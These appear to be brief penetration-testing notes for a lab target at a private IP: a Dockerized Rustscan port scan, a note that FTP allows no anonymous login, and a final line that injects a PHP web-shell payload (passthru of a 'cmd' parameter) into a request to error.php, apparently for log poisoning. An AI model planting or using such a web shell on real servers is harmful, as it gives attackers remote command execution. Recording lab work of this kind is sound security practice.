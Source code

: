# export IP=192.168.243.44

### Rustscan
```
docker run -it --rm --name rustscan rustscan/rustscan:1.10.0 $IP > rust_scan_raw.txt

cat rust_scan_raw.txt | grep -v unknown > rust_scan.txt
```

### FTP
no anonymous login


192.168.243.44/public_html/error.php?<?passthru($_GET[cmd]);?>